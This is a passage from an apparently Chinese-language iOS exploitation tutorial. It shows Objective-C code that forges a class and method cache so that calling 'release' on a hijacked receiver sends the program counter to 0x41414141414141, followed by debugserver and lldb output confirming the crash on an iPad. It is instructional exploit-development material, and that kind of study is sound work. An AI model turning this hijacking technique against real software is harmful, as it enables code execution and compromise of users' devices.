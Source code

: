 接下来我们在main函数中尝试将talker这个receiver改成我们伪造的receiver，然后利用伪造的”release” selector来控制PC指向`0x41414141414141`这个地址：

```
int main(void) {

    Talker *talker = [[Talker alloc] init];
    [talker say: @"Hello, Ice and Fire!"];
    [talker say: @"Hello, Ice and Fire!"];
    [talker release];

    fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
    NSLog(@"cached_sel = %p", NSSelectorFromString(@"release"));

    fake_cache_bucket.cached_function = (void*)0x41414141414141;
    NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);

    fake_objc_class.cache_buckets_ptr = &fake_cache_bucket;
    fake_objc_class.cache_bucket_mask=0;

    fake_receiver.fake_objc_class_ptr=&fake_objc_class;
    talker= &fake_receiver;

    [talker release];
}

```

OK，接下来我们把新编译的hello传到我们的ipad上，然后用debugserver进行调试：

```
Minde-iPad:/tmp root# debugserver *:1234 ./hello 
debugserver-@(#)PROGRAM:debugserver  PROJECT:debugserver-340.3.51.1
 for arm64.
Listening to port 1234 for a connection from *...
Got a connection, launched process ./hello (pid = 1891).

```

然后我们用lldb进行连接，然后直接运行：

```
MacBookPro:objpwn zhengmin$ lldb
(lldb) process connect connect://localhost:5555
2016-01-17 22:02:45.681 lldb[61258:4325925] Metadata.framework [Error]: couldn't get the client port
Process 1891 stopped
* thread #1: tid = 0x36eff, 0x0000000120029000 dyld`_dyld_start, stop reason = signal SIGSTOP
    frame #0: 0x0000000120029000 dyld`_dyld_start
dyld`_dyld_start:
->  0x120029000 <+0>:  mov    x28, sp
    0x120029004 <+4>:  and    sp, x28, #0xfffffffffffffff0
    0x120029008 <+8>:  movz   x0, #0
    0x12002900c <+12>: movz   x1, #0
(lldb) c
Process 1891 resuming
2016-01-17 22:02:48.575 hello[1891:225023] Hello, Ice and Fire!
2016-01-17 22:02:48.580 hello[1891:225023] Hello, Ice and Fire!
2016-01-17 22:02:48.581 hello[1891:225023] cached_sel = 0x18b0f7191
2016-01-17 22:02:48.581 hello[1891:225023] fake_cache_bucket.cached_function = 0x41414141414141
Process 1891 stopped
* thread #1: tid = 0x36eff, 0x0041414141414141, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=257, address=0x41414141414141)
    frame #0: 0x0041414141414141
error: memory read failed for 0x41414141414000

```
